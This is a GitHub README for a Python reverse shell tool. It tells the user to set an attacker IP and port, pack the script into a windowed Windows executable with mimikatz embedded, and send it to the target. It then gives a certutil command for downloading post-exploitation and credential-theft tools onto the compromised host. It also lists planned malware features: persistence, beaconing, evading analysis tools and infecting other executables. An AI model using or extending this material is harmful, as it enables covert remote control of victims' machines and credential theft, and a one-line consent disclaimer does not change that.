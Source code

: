 <h1 align="center">Reverse shell payload only using python</h1>

<p align="center">
<a href="#"><img alt="reverseshellpy forks" src="https://img.shields.io/github/forks/cdkw/reverseshellpy?style=for-the-badge"></a>
<a href="#"><img alt="reverseshellpy last commit (main)" src="https://img.shields.io/github/last-commit/cdkw/reverseshellpy/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="reverseshellpy Repo stars" src="https://img.shields.io/github/stars/cdkw/reverseshellpy?style=for-the-badge&color=yellow"></a>
<a href="#"><img alt="reverseshellpy License" src="https://img.shields.io/github/license/cdkw/reverseshellpy?color=orange&style=for-the-badge"></a>
<a href="https://github.com/cdkw/reverseshellpy/issues"><img alt="reverseshellpy issues" src="https://img.shields.io/github/issues/cdkw/reverseshellpy?color=purple&style=for-the-badge"></a>

<p align="center">Do not attack anyone without their consent.</p>
<p align="center"><img src="https://i.imgur.com/uKFy6zZ.png" alt="SCRIPT"></p>


# Usage:

Replace in the python file the ip and port of your netcat reverse shell server.
```py
def main():
    server_ip = '127.0.0.1'  # Replace with the server's IP address
    server_port = 9001       # Replace with the same port number used on the server
```


Then using auto_py_to_exe or py_to_exe make it an executable. Note that this did not work on kali linux for me.
```
pip install auto-py-to-exe
python -m auto_py_to_exe
```

Select the `Script Location`, then choose `One file`, then choose `window based`. Add an icon if you want, or extra files like mimikatz.exe embedded into it (requires your own code). Then `Convert .py to .exe`. Open the folder you were in when u typed `python -m auto_py_to_exe` and go into `output`, in this folder you will find your exe file.

Now, just send it to your other machine. 
`Note that this is not obfuscated or made to be used with any tunnel to hide the server's ip.`


# Post-exploitation:

After gaining access to your target, you can use `certutil` (`certutil -urlcache -split -f https://www.example.com/example.zip C:\path\to\file`, it being located in the system32 folder) or the embedded `--wget` function of the rs.py to download post-exploitation tools like priviledge exploitation with `mimikatz.exe`.

# Future plans:
- Once ran, automatically add to boot menu
- Every 1 minute try to connect to server machine, if not connected
- If process explorer, wireshark or other are detected, it enters in a hibernation stage for 1 hour, then it tries the connecting again
- If ran with administrator perms, it will infect other .exe files

